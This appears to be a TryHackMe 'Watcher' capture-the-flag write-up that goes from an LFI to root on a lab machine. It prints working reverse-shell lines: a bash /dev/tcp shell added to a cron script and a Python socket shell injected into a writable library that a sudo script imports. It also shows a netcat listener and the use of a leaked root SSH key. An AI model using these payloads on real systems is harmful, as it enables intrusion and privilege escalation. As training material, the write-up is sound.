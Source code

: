 # Watcher
[TryHackMe room link](https://tryhackme.com/room/watcher)

# Informations about the Room
> A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.

# Open ports
21 vsftpd 3.0.3 

22 ssh 

80 apache

# Enumeration

First of all we go to the `robots.txt` file to check for hidden and disallowed directories

```console
User-agent: *
Allow: /flag_1.txt FLAG{REDACTED}
Allow: /secret_file_do_not_read.txt 
```
We got the first flag

When we visit the second file the site gives a 403 but with can bypass it: 

We can see that the GET parameter in the url is vulnerable to LFI

`http://10.10.20.148/post.php?post=?`

With that we can list the file 

`http://10.10.20.148/post.php?post=secret_file_do_not_read.txt`

This file is a note left from user Will to Mat
```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:REDACTED
```
We obtained credentials for the FTP server

When we log in we see flag number 2 and a `files` directory, it's probably where the uploaded files are stored

It's possible to upload a php reverse shell to the machine and visit it abusing the LFI previously discovered

We set up a netcat listener on our machine
`nc -lnvp 4444`

We visit the link

`10.10.20.148/post.php?post=../../../home/ftpuser/ftp/files/shell.php`

And we get a shell on the listener

# Privilege Escalation

We are the user www-data so we cannot do much 

We try to search for flags 

`find / -name flag_3.txt`

The third flag is in the webroot:

`/var/www/html/more_secrets_a9f10a/flag_3.txt`

We upload linpeas to the machine to enumerate privilege escalation vectors

We discover that the user www-data can use all commands as user toby

```console
User www-data may run the following commands on watcher:
(toby) NOPASSWD: ALL
www-data@watcher:/$ sudo -u toby /bin/bash
```

In the `/etc/crontab` file we see that a script is executed every minute from the user mat and we have write access to that file

We set up a listener on our machine and modify the file by adding a reverse shell

```bash
sh -i >& /dev/tcp/10.8.37.155/9001 0>&1
```

Now we are user mat

We see a note left from will:
```console
mat@watcher:~$ cat note.txt 
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
mat@watcher:~$ sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

The python script can be executed as the will user

```python
mat@watcher:~$ cat /home/mat/scripts/will_script.py
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
    print("Invalid command!")
    exit()

os.system(cmd)
```

The script imports a function from a custom library called `cmd.py`

```python
mat@watcher:~/scripts$ cat cmd.py
def get_command(num):
    if(num == "1"):
        return "ls -lah"
    if(num == "2"):
        return "id"
    if(num == "3"):
        return "cat /etc/passwd"
```

With `ls -la` we can see that we have write access to this library file

We can hijack it and add a reverse shell to it

```python
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.50.72",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

def get_command(num):
    if(num == "1"):
        return "ls -lah"
    if(num == "2"):
        return "id"
    if(num == "3"):
        return "cat /etc/passwd"
```

We set up a listener again and we start the script

We receive a shell this time with the user will

Further enumeration with linpeas uncovered that a backup ssh key is stored in a `/opt/backups` folder:

```console
╔══════════╣ Readable files belonging to root and readable by me but not world readable                                                          
-rw-rw---- 1 root adm 2270 Dec  3  2020 /opt/backups/key.b64
```

We decode it:

```console
will@watcher:/dev/shm$ cat key.b64 | base64 -d | tee root_id_rsa
```

We upload it to our machine and we ssh as root
